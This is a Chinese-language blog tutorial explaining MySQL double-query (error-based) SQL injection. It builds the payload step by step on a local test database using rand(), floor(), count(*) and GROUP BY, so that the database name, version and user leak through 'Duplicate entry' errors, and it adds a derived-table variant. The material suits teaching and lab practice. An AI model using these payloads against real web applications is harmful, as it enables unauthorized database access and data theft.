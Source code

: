 title: 详细讲解双查询注入
tags:
  - mysql
  - 互联网
  - 学习
  - 安全
id: 2770
categories:
  - 学习笔记
date: 2013-03-03 07:53:24
---

上一篇文章中，[http://leaver.me/archives/2726.html](http://leaver.me/archives/2726.html)

我说双查询很难讲清楚，这次就试着讲一下。读了一些原理性的东西。然后尽量通俗的给大家讲清楚。。

在此之前，我们理解一下子查询，查询的关键字是select，这个大家都知道。子查询可以简单的理解在一个select语句里还有一个select。里面的这个select语句就是子查询。

看一个简单的例子：

<pre class="lang:default decode:true " >Select concat((select database()));</pre> 

真正执行的时候，先从子查询进行。因此执行select database() 这个语句就会把当前的数据库查出来，然后把结果传入到concat函数。这个函数是用来连接的。比如 concat(‘a’,’b’)那结果就是ab了。

原理：

双注入查询需要理解四个函数/语句
1\. Rand()  //随机函数
2\. Floor()  //取整函数
3\. Count()  //汇总函数
4\. Group by clause //分组语句

简单的一句话原理就是有研究人员发现，当在一个聚合函数，比如count函数后面如果使用分组语句就会把查询的一部分以错误的形式显示出来。

以本地一个名为Security的数据库为例
首先在bt5下的命令行下输入

<pre class="lang:default decode:true " >mysql -u root –p toor</pre> 

就会连接上数据库了。
然后通过use security； 就可以切换到security数据库了。因为一个服务器上可能有多个数据库嘛。
[![]({{BASE_PATH}}/images/522ac49ec64d3b7735b3dc208564de22477e4aba.png)](http://leaverimage.b0.upaiyun.com/33517_o.png)

然后我们执行一下前面那个简单的子查询的例子

<pre class="lang:default decode:true " >SELECT concat((select database()));</pre> 

就能显示security，也就是显示了当前数据库的名字了。
然后我们测试一下concat的用法。输入

<pre class="lang:default decode:true " >SELECT concat('string1','string2');</pre> 

显然结果就是string1string2了

[![]({{BASE_PATH}}/images/a8be70e4ddb999500369b44191c7c188b4ecf651.png)](http://leaverimage.b0.upaiyun.com/33518_o.png)
然后我们测试一下rand()这个随机函数是干嘛的

<pre class="lang:default decode:true " >Select rand();</pre> 

我们多执行几次
 [![]({{BASE_PATH}}/images/ab02015d63c2fc6d0af98492ae791d58a7665000.png)](http://leaverimage.b0.upaiyun.com/33519_o.png)
可以看到，这个函数就是返回大于0，小于1之间的数
然后看看取整函数

<pre class="lang:default decode:true " >Select floor(1.1123456);</pre> 
[![]({{BASE_PATH}}/images/4477acaba79cf1464c028cab96e32534d81af2e5.png)](http://leaverimage.b0.upaiyun.com/33520_o.png)
这个函数就是返回小于等于你输入的数的整数。

然后我们看看双注入查询中的一个简单组合。大家从我的上一篇文章中应该也看到了有一个子查询是

<pre class="lang:default decode:true " >SELECT floor(rand()*2);</pre> 

我们从里向外看。rand() 返回大于0小于1的小数，乘以2之后就成了小于0小于2了。然后对结果进行取证。就只能是0或1了。也就是这个查询的结果不是1，就是0
我们稍微加大一点难度。看这个查询

<pre class="lang:default decode:true " >SELECT CONCAT((SELECT database()), FLOOR(RAND()*2));</pre> 

不要怕。先看最里面的SELECT database() 这个就返回数据库名，这里就是security了。然后FLOOR(RAND()*2)这个上面说过了。不是0，就是1.然后把这两个的结果进行concat连接，那么结果不是security0就是security1了。

[![]({{BASE_PATH}}/images/f29b4115541e053c2e100bc7a35cdd51aaa9c2e5.png)](http://leaverimage.b0.upaiyun.com/33521_o.png)
如果我们把这条语句后面加上from 一个表名。那么一般会返回security0或security1的一个集合。数目是由表本身有几条结果决定的。比如一个管理表里有5个管理员。这个就会返回五条记录，这里users表里有13个用户，所以返回了13条
[![]({{BASE_PATH}}/images/d272e51a8be57b8739ab1c63516af31cd795f6ab.png)](http://leaverimage.b0.upaiyun.com/33522_o.png)
如果是从information_schema.schemata里，这个表里包含了mysql的所有数据库名。这里本机有三个数据库。所以会返回三个结果

[![]({{BASE_PATH}}/images/8c67270890234e1d851d71c02e44e7511cedcdbd.png)](http://leaverimage.b0.upaiyun.com/33523_o.png)

现在我们准备加上Group By 语句了。
我们使用information_schema.tables 或 information_schema.columns者两个表来查询。因为表里面一般数据很多。容易生成很多的随机值，不至于全部是security0，这样就不能查询出结果了。

<pre class="lang:default decode:true " >select concat((select database()), floor(rand()*2))as a from information_schema.tables group by a;</pre> 

这里我先解释一下。我们把concat((select database()), floor(rand()*2)) 这个结果取了一个别名 a ，然后使用他进行分组。这样相同的security0分到一组，security1分到一组。就剩下两个结果了。
 [![]({{BASE_PATH}}/images/c9ad11cc6de49646801b61d3143e1fa9c5d0b0af.png)](http://leaverimage.b0.upaiyun.com/33524_o.png)

注意。这里的database()可以替换成任何你想查的函数，比如version(), user(), datadir()或者其他的查询。比如查表啊。查列啊。原理都是一样的。

最后的亮点来了。。
我们输入这条：注意多了一个聚合函数count(*)

<pre class="lang:default decode:true " >select count(*), concat((select database()), floor(rand()*2))as a from information_schema.tables group by a;</pre> 
[![]({{BASE_PATH}}/images/03af307809c7bcdfd4f77d3551d39e1d7fa7e515.png)](http://leaverimage.b0.upaiyun.com/33525_o.png)

报错了

<pre class="lang:default decode:true " >ERROR 1062 (23000): Duplicate entry 'security1' for key ‘group_key’</pre> 

重复的键值 可以看到security就是我们的查询结果了
想要查询版本就这样：

<pre class="lang:default decode:true " >select count(*), concat((select version()), floor(rand()*2))as a from information_schema.tables group by a;</pre> 

看看替换了database()为version()
 [![]({{BASE_PATH}}/images/b4e9f38f4533442b15107ce4b92d7d9d370bc934.png)](http://leaverimage.b0.upaiyun.com/33527_o.png)
再看一个

<pre class="lang:default decode:true " >select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from information_schema.tables group by a;</pre> 

报错

<pre class="lang:default decode:true " >ERROR 1062 (23000): Duplicate entry '~root@localhost~1' for key 'group_key'</pre> 

这里的~这个符号只是为了让结果更清晰。

这里还有一个比较复杂的。叫做派生表。需要使用
select 1 from (table name); 这样的语法来报错，具体就是

<pre class="lang:default decode:true " >select 1 from (select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from information_schema.tables group by a)x;</pre> 

来报错。

大家可以对照我上一篇文章来看。相信讲的还算清楚。